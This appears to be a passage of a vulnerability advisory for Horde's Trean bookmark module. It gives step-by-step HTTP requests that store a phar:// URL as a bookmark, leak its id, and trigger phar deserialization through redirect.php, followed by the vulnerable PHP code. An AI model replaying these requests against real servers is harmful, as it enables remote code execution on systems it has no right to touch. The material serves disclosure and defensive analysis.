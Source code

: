 <p class="cn" markdown="1">Stage 1 - Add a bookmark with the url parameter mapping to your malicious phar archive.</p>

```
POST /horde/trean/add.php HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Cookie: Horde=<sessionid>

actionID=add_bookmark&url=phar:///tmp/poc.xyz
```

<p class="cn" markdown="1">Stage 2 - Leak the `b` parameter. This is required to trigger stage 3.</p>

```
GET /horde/trean/ HTTP/1.1
Host: <target>
Cookie: Horde=<sessionid>
```

<p class="cn" markdown="1">response...</p>

```
...
        <a href="/horde/trean/redirect.php?b=28" target="_blank">phar:///tmp/poc.xyz</a>
```

<p class="cn" markdown="1">Stage 3 - Trigger phar deserialization.</p>

```
GET /horde/trean/redirect.php?b=28 HTTP/1.1
Host: <target>
Cookie: Horde=<sessionid>
```

### Vulnerability Analysis

<p class="cn" markdown="1">As noted, an attacker can reach the trigger path from the `trean/redirect.php` script:</p>

```php
require_once __DIR__ . '/lib/Application.php';
Horde_Registry::appInit('trean');

$bookmark_id = Horde_Util::getFormData('b');
if (!$bookmark_id) {
    exit;
}

try {
    $bookmark = $trean_gateway->getBookmark($bookmark_id);
    ++$bookmark->clicks;
    $bookmark->save();                                              // 1
    header('Location: ' . Horde::externalUrl($bookmark->url));
} catch (Exception $e) {
}
```
